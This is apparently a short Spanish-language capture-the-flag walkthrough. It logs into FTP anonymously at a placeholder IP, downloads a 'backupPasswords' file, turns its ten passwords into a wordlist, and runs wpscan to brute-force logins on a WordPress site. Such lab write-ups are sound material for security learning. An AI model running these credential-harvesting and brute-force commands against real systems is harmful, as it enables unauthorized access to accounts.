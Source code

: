 ### ftp

```shell
ftp anonymous@<IP>
```

```shell
get backupPasswords
```

Este archivo contiene lo siguiente...

```
Hi Doe, 

I'm guessing you forgot your password again! I've added a bunch of passwords below along with your password so we don't get hacked by those elites again!

*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp
```

Por lo que nos crearemos un diccionario con esto...

```shell
nano passwords.txt

#Contenido
*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp

#Guardar y salir
^X
y
<ENTER>
```

```shell
wpscan --url http://<IP>:65535/phpcms/ --usernames users.txt --passwords passwords.txt
```
